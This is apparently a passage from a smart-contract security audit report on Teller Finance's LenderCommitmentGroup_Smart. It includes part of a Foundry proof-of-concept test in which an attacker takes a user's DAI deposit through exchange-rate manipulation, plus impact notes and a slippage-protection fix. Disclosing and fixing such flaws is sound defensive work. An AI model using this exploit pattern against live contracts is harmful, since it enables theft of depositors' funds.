 ```solidity
    vm.startPrank(user);
    deal(address(DAI), user, userDai);
    DAI.approve(address(lender), userDai);
    assertEq(lender.addPrincipalToCommitmentGroup(userDai, user), 0);
    vm.stopPrank();

    // poolSharesToken are burned incorrectly before calculating exchange rate
    // so this must be fixed or exchange rate will be 1
    vm.mockCall(
        address(lender.poolSharesToken()), 
        abi.encodeWithSignature("burn(address,uint256)", attacker, shares),
        ""
    );

    // attacker receives the DAI from the user above
    vm.prank(attacker);
    assertEq(lender.burnSharesToWithdrawEarnings(shares, attacker), userDai);
}
```

## Impact

Attacker steals all deposits in `LenderCommitmentGroup_Smart`.

## Code Snippet

https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L307-L310
https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L396-L399

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

Add slippage protection to `LenderCommitmentGroup_Smart_test::addPrincipalToCommitmentGroup/burnSharesToWithdrawEarnings()` by sending `minAmountOut` arguments in both functions. This is similar to how Uniswap handles sandwich attacks in their [router](https://github.com/Uniswap/v3-periphery/blob/main/contracts/NonfungiblePositionManager.sol#L151-L152).



## Discussion
